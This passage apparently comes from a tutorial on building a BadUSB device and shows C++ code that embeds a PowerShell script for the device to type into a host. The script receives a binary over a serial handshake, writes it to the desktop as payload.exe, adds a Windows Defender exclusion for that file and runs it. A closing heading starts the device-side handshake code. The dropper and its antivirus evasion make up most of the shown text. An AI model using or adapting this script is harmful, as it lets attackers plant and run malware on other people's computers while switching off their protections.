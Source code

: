 The script itself is then simply pasted into the translation unit and passed to the helper function above:

````c++
static constexpr std::string_view code =
    R"(function Read { param($s, $c)
            $b = New-Object byte[] $c
            $o = 0
            while ($o -lt $c) {
                $r = $s.Read($b, $o, ($c - $o))
                $o += $r
            }
            return $b
        }

        $n = [System.IO.Ports.SerialPort]::GetPortNames()
        if ($n.Length -gt 0) {
            foreach ($p in $n) {
                $s = New-Object System.IO.Ports.SerialPort($p, 115200, 'None', 8, 'One')
                $s.ReadTimeout = 50

                $s.Open()
                if ($s.IsOpen) {
                    [byte[]] $h = 0xB, 0xE, 0xE, 0xF
                    $s.Write($h, 0, 4)
                    $a = Read $s 4
                    if (-not (Compare-Object $a (0xD,0xE,0xA,0xD))) {
                        $r = Read $s 4
                        $i = [BitConverter]::ToInt32($r, 0)

                        if ($i -gt 0) {
                            $m = Read $s $i

                            $f = Join-Path $HOME "Desktop/payload.exe"
                            [System.IO.File]::WriteAllBytes($f, $m)
                            Add-MpPreference -ExclusionPath $f
                            & $f
                        }
                    }
                    $s.Close()
                }
            }
        })";

send_script(keyboard, code);
````

## 5.2. Responding to the Handshake Request

Now the BadUSB device itself has to read and react to the handshake request from the host. This is straight forward because it were prepared previously, see [Device Class: CDC](#32-device-class-cdc). Therefore all that is required is to set the callback for incoming data transfers. Which should look like this:

